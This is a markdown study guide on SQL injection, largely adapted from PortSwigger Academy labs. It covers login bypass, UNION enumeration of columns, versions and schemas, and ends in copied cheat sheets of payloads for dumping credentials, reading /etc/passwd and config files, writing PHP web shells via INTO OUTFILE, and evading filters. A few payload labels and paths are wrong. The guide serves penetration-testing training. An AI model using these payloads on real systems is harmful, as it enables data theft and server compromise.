




# SQL Injection

## SQL injection (SQLi) Information

SQL injection is a web security flaw that allows an attacker to interfere with a web application's database queries. It allows an attacker to see data that they wouldn't ordinarily be able to see. This could include data belonging to other users or any other information that the app has access to. In many circumstances, an attacker can change or remove this information.

### Impact

A successful SQL injection attack can result in unauthorized access to sensitive data, such as passwords, credit card details, or personal user information. An attacker can sometimes get a persistent backdoor into a company's systems, resulting in a long-term penetration that goes unreported for a long time.

### Reference

Most of the notes that are here and the exercises (labs) are from portswigger academy:



## SQL Union Injections

### Retrieving hidden data

Consider a shopping application that displays products in different categories. When the user clicks on the Gifts category, their browser requests the URL:

`https://insecure-website.com/products?category=Gifts`

This causes the application to make an SQL query to retrieve details of the relevant products from the database:

`SELECT * FROM products WHERE category = 'Gifts' AND released = 1`

This SQL query asks the database to return:

* all details (\*)
* from the products table
* where the category is Gifts
* and released is 1.

The restriction `released = 1` is being used to hide products that are not released. For unreleased products, presumably `released = 0`.

The application doesn't implement any defenses against SQL injection attacks, so an attacker can construct an attack like:

`https://insecure-website.com/products?category=Gifts'--`

This results in the SQL query:

`SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1`

The key thing here is that the double-dash sequence `--` is a comment indicator in SQL, and means that the rest of the query is interpreted as a comment. This effectively removes the remainder of the query, so it no longer includes `AND released = 1`. This means that all products are displayed, including unreleased products.

Going further, an attacker can cause the application to display all the products in any category, including categories that they don't know about:

`https://insecure-website.com/products?category=Gifts'+OR+1=1--`

This results in the SQL query:

`SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1`

The modified query will return all items where either the category is Gifts, or 1 is equal to 1. Since `1=1` is always true, the query will return all items.

**Example of an SQL injection vulnerability in WHERE clause allowing retrieval of hidden data:**

```
# URL Decoded
https://acff1f681f6a7a908082055100d30020.web-security-academy.net/filter?category=Gifts' or 1=1--

# URL Encoded
https://acff1f681f6a7a908082055100d30020.web-security-academy.net/filter?category=Gifts%27%20or%201=1--
```

### Subverting application logic

Consider an application that lets users log in with a username and password. If a user submits the username `wiener` and the password `bluecheese`, the application checks the credentials by performing the following SQL query:

`SELECT * FROM users WHERE username = 'wiener' AND password = 'bluecheese'`

If the query returns the details of a user, then the login is successful. Otherwise, it is rejected.

Here, an attacker can log in as any user without a password simply by using the SQL comment sequence `--` to remove the password check from the `WHERE` clause of the query. For example, submitting the username `administrator'--` and a blank password results in the following query:

`SELECT * FROM users WHERE username = 'administrator'--' AND password = ''`

This query returns the user whose username is `administrator` and successfully logs the attacker in as that user.

**Example of an SQL injection vulnerability allowing login bypass:**







### Retrieving data from other database tables

In cases where the results of an SQL query are returned within the application's responses, an attacker can leverage an SQL injection vulnerability to retrieve data from other tables within the database. This is done using the `UNION` keyword, which lets you execute an additional `SELECT` query and append the results to the original query.

For example, if an application executes the following query containing the user input "Gifts":

`SELECT name, description FROM products WHERE category = 'Gifts'`

then an attacker can submit the input:

`' UNION SELECT username, password FROM users--`

This will cause the application to return all usernames and passwords along with the names and descriptions of products.

## SQL injection UNION attacks

When an application is vulnerable to SQL injection and the results of the query are returned within the application's responses, the `UNION` keyword can be used to retrieve data from other tables within the database. This results in an SQL injection UNION attack.

The `UNION` keyword lets you execute one or more additional `SELECT` queries and append the results to the original query. For example:

`SELECT a, b FROM table1 UNION SELECT c, d FROM table2`

This SQL query will return a single result set with two columns, containing values from columns `a` and `b` in `table1` and columns `c` and `d` in `table2`.

For a `UNION` query to work, two key requirements must be met:

* The individual queries must return the same number of columns.
* The data types in each column must be compatible between the individual queries.

To carry out an SQL injection UNION attack, you need to ensure that your attack meets these two requirements. This generally involves figuring out:

* How many columns are being returned from the original query?
* Which columns returned from the original query are of a suitable data type to hold the results from the injected query?

### Step 1. Determining the number of columns required in an SQL injection UNION attack

When performing an SQL injection UNION attack, there are two effective methods to determine how many columns are being returned from the original query.

The first method involves injecting a series of `ORDER BY` clauses and incrementing the specified column index until an error occurs. For example, assuming the injection point is a quoted string within the `WHERE` clause of the original query, you would submit:

`' ORDER BY 1--`  \
`' ORDER BY 2--`  \
`' ORDER BY 3--`  \
`etc.`

This series of payloads modifies the original query to order the results by different columns in the result set. The column in an `ORDER BY` clause can be specified by its index, so you don't need to know the names of any columns. When the specified column index exceeds the number of actual columns in the result set, the database returns an error, such as:

`The ORDER BY position number 3 is out of range of the number of items in the select list.`

The application might actually return the database error in its HTTP response, or it might return a generic error, or simply return no results. Provided you can detect some difference in the application's response, you can infer how many columns are being returned from the query.

The second method involves submitting a series of `UNION SELECT` payloads specifying a different number of null values:

`' UNION SELECT NULL--`  \
`' UNION SELECT NULL,NULL--`  \
`' UNION SELECT NULL,NULL,NULL--`  \
`etc.`

If the number of nulls does not match the number of columns, the database returns an error, such as:

`All queries combined using a UNION, INTERSECT or EXCEPT operator must have an equal number of expressions in their target lists.`

Again, the application might actually return this error message, or might just return a generic error or no results. When the number of nulls matches the number of columns, the database returns an additional row in the result set, containing null values in each column. The effect on the resulting HTTP response depends on the application's code. If you are lucky, you will see some additional content within the response, such as an extra row on an HTML table. Otherwise, the null values might trigger a different error, such as a `NullPointerException`. Worst case, the response might be indistinguishable from that which is caused by an incorrect number of nulls, making this method of determining the column count ineffective.

**Note**

* The reason for using `NULL` as the values returned from the injected `SELECT` query is that the data types in each column must be compatible between the original and the injected queries. Since `NULL` is convertible to every commonly used data type, using `NULL` maximizes the chance that the payload will succeed when the column count is correct.
* On Oracle, every `SELECT` query must use the `FROM` keyword and specify a valid table. There is a built-in table on Oracle called `dual` which can be used for this purpose. So the injected queries on Oracle would need to look like: `' UNION SELECT NULL FROM DUAL--`.
* The payloads described use the double-dash comment sequence `--` to comment out the remainder of the original query following the injection point. On MySQL, the double-dash sequence must be followed by a space. Alternatively, the hash character `#` can be used to identify a comment.

For more details of database-specific syntax, see the [SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet).

**Example of an SQL injection UNION attack, determining the number of columns returned by the query:**

First, determine the number of columns:

```
# URL Decoded
https://acba1f401ebdddba804a0eaa00610008.web-security-academy.net/filter?category=' ORDER BY 3--

# URL Encoded
https://acba1f401ebdddba804a0eaa00610008.web-security-academy.net/filter?category=%27%20ORDER%20BY%203--
```

Then try performing a `UNION` statement with the number of columns found, use `NULL` since we don't know the names of the columns:

```
# URL Decoded
https://acba1f401ebdddba804a0eaa00610008.web-security-academy.net/filter?category=' UNION SELECT NULL,NULL,NULL--

# URL Encoded
https://acba1f401ebdddba804a0eaa00610008.web-security-academy.net/filter?category=%27%20UNION%20SELECT%20NULL,NULL,NULL--
```

### Step 2. Finding columns with a useful data type in an SQL injection UNION attack

The reason for performing an SQL injection UNION attack is to be able to retrieve the results from an injected query. Generally, the interesting data that you want to retrieve will be in string form, so you need to find one or more columns in the original query results whose data type is, or is compatible with, string data.

Having already determined the number of required columns, you can probe each column to test whether it can hold string data by submitting a series of `UNION SELECT` payloads that place a string value into each column in turn. For example, if the query returns four columns, you would submit:

`' UNION SELECT 'a',NULL,NULL,NULL--`  \
`' UNION SELECT NULL,'a',NULL,NULL--`  \
`' UNION SELECT NULL,NULL,'a',NULL--`  \
`' UNION SELECT NULL,NULL,NULL,'a'--`

If the data type of a column is not compatible with string data, the injected query will cause a database error, such as:

`Conversion failed when converting the varchar value 'a' to data type int.`

If an error does not occur, and the application's response contains some additional content including the injected string value, then the relevant column is suitable for retrieving string data.

**Example of an SQL injection UNION attack, finding a column containing text:**

```
# URL Decoded
https://ac781f491ed3707f804b165000740086.web-security-academy.net/filter?category=' UNION SELECT NULL,'8ImmxI',NULL--

# URL Encoded
https://ac781f491ed3707f804b165000740086.web-security-academy.net/filter?category=%27%20UNION%20SELECT%20NULL,%278ImmxI%27,NULL--
```

### Step 3. Using an SQL injection UNION attack to retrieve interesting data

When you have determined the number of columns returned by the original query and found which columns can hold string data, you are in a position to retrieve interesting data.

Suppose that:

* The original query returns two columns, both of which can hold string data.
* The injection point is a quoted string within the `WHERE` clause.
* The database contains a table called `users` with the columns `username` and `password`.

In this situation, you can retrieve the contents of the `users` table by submitting the input:

`' UNION SELECT username, password FROM users--`

Of course, the crucial information needed to perform this attack is that there is a table called `users` with two columns called `username` and `password`. Without this information, you would be left trying to guess the names of tables and columns. In fact, all modern databases provide ways of examining the database structure, to determine what tables and columns it contains.

**Example of an SQL injection UNION attack, retrieving data from other tables:**

```
' ORDER BY 1--
' ORDER BY 2--
```

```
' UNION SELECT NULL,NULL--
```

```
' UNION SELECT 'a',NULL--
' UNION SELECT 'a','a'--
```

```
# URL Decoded
https://ace31fee1e10642480a40baa001600bf.web-security-academy.net/filter?category='UNION SELECT username, password FROM users--


# URL Encoded
https://ace31fee1e10642480a40baa001600bf.web-security-academy.net/filter?category=%27UNION%20SELECT%20username,%20password%20FROM%20users--
```

## Examining the database in SQL injection attacks

When exploiting [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerabilities, it is often necessary to gather some information about the database itself. This includes the type and version of the database software and the contents of the database in terms of which tables and columns it contains.

### Querying the database type and version

Different databases provide different ways of querying their version. You often need to try out different queries to find one that works, allowing you to determine both the type and version of the database software.

The queries to determine the database version for some popular database types are as follows:

Database type

Query

Microsoft, MySQL

`SELECT @@version`

Oracle

`SELECT * FROM v$version`

PostgreSQL

`SELECT version()`

For example, you could use a `UNION` attack with the following input:

`' UNION SELECT @@version--`

This might return output like the following, confirming that the database is Microsoft SQL Server, and the version that is being used:

`Microsoft SQL Server 2016 (SP2) (KB4052908) - 13.0.5026.0 (X64)`  \
`Mar 18 2018 09:11:49`  \
`Copyright (c) Microsoft Corporation`  \
`Standard Edition (64-bit) on Windows Server 2016 Standard 10.0 <X64> (Build 14393: ) (Hypervisor)`

**Example of an SQL injection attack, querying the database type and version on Oracle:**

```
# URL Decoded
https://ac121f401ffb8cc8808a01d60020002b.web-security-academy.net/filter?category=' UNION SELECT NULL,NULL FROM DUAL--

# URL Encoded
https://ac121f401ffb8cc8808a01d60020002b.web-security-academy.net/filter?category=%27%20UNION%20SELECT%20NULL,NULL%20FROM%20DUAL--
```

```
# URL Decoded
https://ac121f401ffb8cc8808a01d60020002b.web-security-academy.net/filter?category=' UNION SELECT 'a','a' FROM DUAL--

# URL Encoded
https://ac121f401ffb8cc8808a01d60020002b.web-security-academy.net/filter?category=%27%20UNION%20SELECT%20%27a%27,%27a%27%20FROM%20DUAL--
```

```
# URL Decoded
https://ac121f401ffb8cc8808a01d60020002b.web-security-academy.net/filter?category=' UNION SELECT banner,NULL FROM v$version--

https://ac121f401ffb8cc8808a01d60020002b.web-security-academy.net/filter?category=' UNION SELECT NULL,banner FROM v$version--

# URL Encoded
https://ac121f401ffb8cc8808a01d60020002b.web-security-academy.net/filter?category=%27%20UNION%20SELECT%20banner,NULL%20FROM%20v$version--

https://ac121f401ffb8cc8808a01d60020002b.web-security-academy.net/filter?category=%27%20UNION%20SELECT%20NULL,banner%20FROM%20v$version--
```

**Example output of this here:**



**Example of an SQL injection attack, querying the database type and version on MySQL and Microsoft:**

**Research why it doesn't work without a proxy**

```
# URL Decoded
/filter?category=' UNION SELECT 'a','b'# 

# URL Encoded
/filter?category='+UNION+SELECT+'a','b'#
```

```
# URL Decoded
/filter?category=' UNION SELECT @@version, NULL#
/filter?category=' UNION SELECT NULL,@@version# 


# URL Encoded
/filter?category='+UNION+SELECT+@@version,+NULL#
/filter?category='+UNION+SELECT+NULL,@@version#
```

### Listing the contents of the database

Most database types (with the notable exception of Oracle) have a set of views called the information schema which provides information about the database.

You can query `information_schema.tables` to list the tables in the database:

`SELECT * FROM information_schema.tables`

This returns output like the following:

## TABLE\_CATALOG TABLE\_SCHEMA TABLE\_NAME TABLE\_TYPE

MyDatabase dbo Products BASE TABLE\
MyDatabase dbo Users BASE TABLE\
MyDatabase dbo Feedback BASE TABLE\`

This output indicates that there are three tables, called `Products`, `Users`, and `Feedback`.

You can then query `information_schema.columns` to list the columns in individual tables:

`SELECT * FROM information_schema.columns WHERE table_name = 'Users'`

This returns output like the following:

## TABLE\_CATALOG TABLE\_SCHEMA TABLE\_NAME COLUMN\_NAME DATA\_TYPE

MyDatabase dbo Users UserId int\
MyDatabase dbo Users Username varchar\
MyDatabase dbo Users Password varchar\`

This output shows the columns in the specified table and the data type of each column.

### SQL injection attack, listing the database contents on non-Oracle databases

```
# URL Decoded
https://ac051f311f52f43a801c355e00500006.web-security-academy.net/filter?category=' ORDER BY 2--

# URL Encoded
https://ac051f311f52f43a801c355e00500006.web-security-academy.net/filter?category=%27%20ORDER%20BY%202--
```

```
# URL Decoded


# URL Encoded
https://ac051f311f52f43a801c355e00500006.web-security-academy.net/filter?category=%27UNION%20SELECT%20NULL,NULL--
```

```
# URL Decoded


# URL Encoded
https://ac051f311f52f43a801c355e00500006.web-security-academy.net/filter?category=%27UNION%20SELECT%20%27a%27,%27a%27--
```

## SQL Union Injection Cheatsheet

My simple cheatsheet:

```http
# Check SQL Feedback/Return
?id='

# Check the amount of columns
?id=1 order by 1
?id=1 order by 2
?id=1 order by 3

# Error
?id=1 order by 4

# Perform a union selection
?id=1 union all select 1, 2, 3

# Determine the DBMS
?id=1 union all select 1, 2, @@version

# Enumerate Tables
?id=1 union all select 1, 2, table_name from information_schema.tables

# Gather information from a table
?id=1 union all select 1, 2, column_name from information_schema.columns where table_name='users'

# Create File
?id=1 union all select 1,2,"<?php echo '<pre>' . shell_exec($_GET['cmd']). '<pre>';?>" into OUTFILE 'c:\htdocs\evil.php'

## Navigate to the Created File
/evil.php?cmd=dir
```

This cheat sheet is from [here](https://github.com/areyou1or0/OSCP/blob/master/Web).

```http
# SQL Injection (manual)
photoalbum.php?id=1'

# find the number of columns
photoalbum.php?id=1 order by 8

# Find space to output db
?id=1 union select 1,2,3,4,5,6,7,8

# Get username of the sql-user
?id=1 union select 1,2,3,4,user(),6,7,8

# Get version
?id=1 union select 1,2,3,4,version(),6,7,8

# Get all tables
?id=1 union select 1,2,3,4,table_name,6,7,8,9 from information_schema.tables

# Get all columns from a specific table
?id=1 union select 1,2,3, column_name ,5,6,7,8 from information_schema.columns where table_name=‘users’
?id=1 union select 1,2,3, group_concat(column_name) ,5,6,7,8 from information_schema.columns() where table_name=‘users’
.. 1,2,3, group_concat(user_id, 0x3a, first_name, 0x3a, last_name, 0x3a, email, 0x3a, pass, 0x3a, user_level) ,5,6,7,8 from users

# view files
' union select 1,2,3, load_file(‘/etc/passwd’) ,5,6,7,8 -- -
' union select 1,2,3, load_file(‘/var/www/login.php’) ,5,6,7,8 -- -
' union select 1,2,3, load_file(‘/var/www/includes/config.inc.php’) ,5,6,7,8 -- -
' union select 1,2,3, load_file(‘/var/www/mysqli_connect.php’) ,5,6,7,8 -- -	

# upload files
' union select 1,2,3, 'this is a test message' ,5,6,7,8 into outfile '/var/www/test'-- -	
' union select 1,2,3, load_file('/var/www/test') ,5,6,7,8 -- -	
' union select null,null,null, "<?php system($_GET['cmd']) ?>" ,5,6,7,8 into outfile '/var/www/shell.php' -- -	
' union select null,null,null, load_file('/var/www/shell.php') ,5,6,7,8 -- -
```

Bypass filters:

```sql
// Syntax:
UniOn selEct [número de columnas] [comentario]


// Ejemplos: Supondremos que hay 2 columnas y la columna 2 se puede usar para mostrar datos en la pantalla.

// Select the version of the database:
UniOn selEct 1,version() /*

// Database being used:
UniOn selEct 1,database() /*

// Database user:
UniOn selEct 1,user() /*

// Database tables:
UniOn selEct 1,table_name frOm information_schema.tables table_schema = '[nombre de la base de datos]' /*

// Table columns:
UniOn selEct 1,column_name frOm information_schema.columns table_name = '[nombre de la tabla]' /*

// Select data from table:
UniOn selEct 1,[nombre de la columna] frOm [nombre de la tabla] /*

// Read files:
UniOn selEct 1,load_file('ubicación del archivo') /*

// Write files:
UniOn selEct null,[contenido del archivo] inTo outfile '/ubicacion/donde/escribir/el/archivo' /*
```

Another cheatsheet:

* Authentication bypass ➡️ `' or 1=1 LIMIT 1;#`
* Enumerate version ➡️ `?id=1 union all select 1, 2, @@version`
* Enumerate database user ➡️ `?id=1 union all select 1, 2, user()`
* Enumerate table names ➡️ `?id=1 union all select 1, 2, table_name from information_schema.tables`
* Enumerate users table ➡️ `?id=1 union all select 1, 2, column_name from information_schema.columns where table_name='users'`
* Get usernames and passwords from users table ➡️ `?id=1 union all select 1, username, password from users`
* (Windows) Reading file attempt ➡️ `?id=1 union all select 1, 2, load_file('C:/Windows/System32/drivers/etc/hosts')`
* (Windows) Writing file attempt ➡️ `?id=1 union all select 1, 2, "<?php echo shell_exec($_GET['cmd']);?>" into OUTFILE 'c:/xampp/htdocs/backdoor.php'`
* (Linux) Reading file attempt ➡️ `?id=1 union all select 1, 2, load_file('/etc/passwd')`
* (Windows) Writing file attempt ➡️ `?id=1 union all select 1, 2, "<?php echo shell_exec($_GET['cmd']);?>" into OUTFILE '/var/ww/html/backdoor.php'`

Examples of TRUE statements to discover SQLi:

```sql
aNd 1=1
aNd 21=21
orDeR bY 1
```

Examples of FALSE statements:

```sql
dNd 0=1
anD 9=2
ordEr bY 1000000000000
```

Characters to use instead of spaces:

```sql
+, /**/, %20
```

Examples, orDeR bY 1 can be rewritten as:

```sql
orDer+bY+1
orDer/**/bY/**/1
orDer%20bY%201
```

Comments to finalize the consultations:

```sql
/*
//
#
%23
```

> Note: Sometimes you may need to add ';' before the comment, examples:
>
> ```sql
> anD 1=1//
> anD 1=1;//
> ```
